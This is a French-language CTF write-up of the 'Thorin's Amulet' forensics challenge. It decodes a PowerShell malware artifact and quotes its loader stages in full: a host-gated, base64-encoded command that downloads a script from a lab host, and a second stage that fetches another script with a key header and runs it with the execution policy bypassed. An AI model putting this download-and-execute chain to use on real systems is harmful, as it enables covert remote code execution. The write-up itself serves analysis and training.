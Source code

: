 # Thorin’s Amulet


Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

En démarrant le challenge, on obtient un script powershell `artifact.ps1` : 
```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```
D'abord le script vérifie si il s'éxécute bien sur `WORKSTATION-DM-0043` puis si c'est bien le cas, il éxécute :
```powershell
"SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
``` 
qui donne : 
```powershell
 ( New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```
Une fois décodé depuis de la base64. 
Depuis `http://korp.htb/update` il va télécharger ceci : 
```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```
Ce script va lui aussi GET un fichier à `http://korp.htb/a541a` avec `5337d322906ff18afedc1edc191d325d` comme clé puis l’éxécuté en bypassant certaines restrictions powershell grâce à `-exec Bypass`.

On récupère donc ce fichier pour voir ce qu’il y a de beau à l’intérieur, peut-être du code malveillant, ou alors, un flag ? 

![image-1](https://github.com/user-attachments/assets/3d72173f-3dcb-4a57-9247-5746e5528a2d)

![image-2](https://github.com/user-attachments/assets/bd53afe3-731d-4c8f-ac03-4ec33485ca0c)

Bon du coup, on rend ça lisible et une petite surprise nous attends : 

![image-3](https://github.com/user-attachments/assets/792052b8-7580-48a2-b91c-112da43214da)


